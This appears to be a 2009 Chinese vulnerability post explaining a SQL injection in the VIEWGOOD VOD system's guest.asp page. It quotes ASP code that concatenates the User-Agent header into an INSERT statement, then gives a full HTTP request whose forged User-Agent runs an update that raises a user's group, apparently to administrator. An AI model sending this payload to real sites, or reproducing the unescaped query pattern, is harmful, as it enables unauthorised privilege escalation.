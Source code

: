 ```yaml
---
title: 远古视频点播系统注入漏洞
description: 作者：toby57VIEWGOODVOD视频点播系统(WebVOD)注入漏洞漏洞产生于文件/webmedia/oemui/user/guest.asp，访问这个页面需要注册相关代码：......
date: 2009-03-12 09:35:06
category: 漏洞信息
tags: ['远古', '注入', '漏洞信息']
post_id: 811
alias: VIEWGOOD-VOD-SQL-injection
ViewNums: 3524
---
```


作者：[toby57](http://bbs.wolvez.org/post/148/)

[VIEWGOOD VOD视频点播系统 (WebVOD)注入漏洞](/blog/viewgood-vod-sql-injection)
漏洞产生于文件/webmedia/oemui/user/guest.asp，访问这个页面需要注册

相关代码：

    szAgent = Request.ServerVariables("HTTP_USER_AGENT")
    aTmpInfo = Split(szAgent, " (", -1, 1)
    aAgentInfo = Split(aTmpInfo(1), "; ", -1, 1)

    szBrowser = aAgentInfo(1)
    if Right(aAgentInfo(2), 1) = ")" or Right(aAgentInfo(2), 1) = ";" then
        szOS = Left(aAgentInfo(2), Len(aAgentInfo(2)) - 1)
    else
        szOS = aAgentInfo(2)
    end if
    szClientIP = Request.ServerVariables("REMOTE_ADDR")

    szSQL = "INSERT INTO GuestBook(CusTomer_ID,cont,ipaddr,ostype,browser,crdt) VALUES(" & iUserID & ",'" & szMemo & "','" & szClientIP & "','" & szOS & "','" & szBrowser & "','" & now &"')"
    con.Execute szSQLHTTP_USER_AGENT我们可以自己构造

POST /webmedia/oemui/user/guest.asp HTTP/1.1
Accept: image/gif, image/x-xbitmap, image/jpeg,
Referer: [url]http://you.are.fucked.cn/webmedia/oemui/user/guest.asp[/url]
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0','');update Customer_Group set Group_ID=1 where Customer_ID=9--; Windows NT 5.1; SV1; .NET CLR 2.0.50727)
Host: you.are.fucked.cn
Content-Length: 75
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDCSACDTQQ=CGGFJOGANCPNAIAIABABHMHA;

memo=aaaa&submit=%B7%A2%CB%CD%D3%C3%BB%A7%C1%F4%D1%D4%D0%C5%CF%A2+%3E%3E%3E

